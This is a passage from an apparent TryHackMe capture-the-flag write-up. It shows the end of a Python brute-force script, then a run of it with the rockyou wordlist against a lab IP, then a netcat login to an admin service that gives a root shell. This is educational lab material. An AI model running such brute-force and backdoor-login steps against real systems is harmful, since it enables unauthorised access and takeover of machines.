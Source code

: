 ```python

    host = args.ip
    port = 8000
    file_path = args.file
    
    # Calling bruteforce function
    bruteforce(host, port, file_path)

if __name__ == "__main__":
    main()
```

The script takes two arguments: `-i` which is the ip address of the target and `-f` which is the password list location.

```terminal
$ python hac.py -i 10.10.248.81 -f /usr/share/wordlists/rockyou.txt
[+] Starting the script
[+] Password is: REDACTED
```

And we got the password, now let's authenticate.

```terminal
$ nc 10.10.248.81 8000
admin
Password:
REDACTED
Welcome Admin!!! Type "shell" to begin
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

<https://github.com/NasrallahBaadi/CTF-Scripts/tree/main/TryHackMe/pyrat>

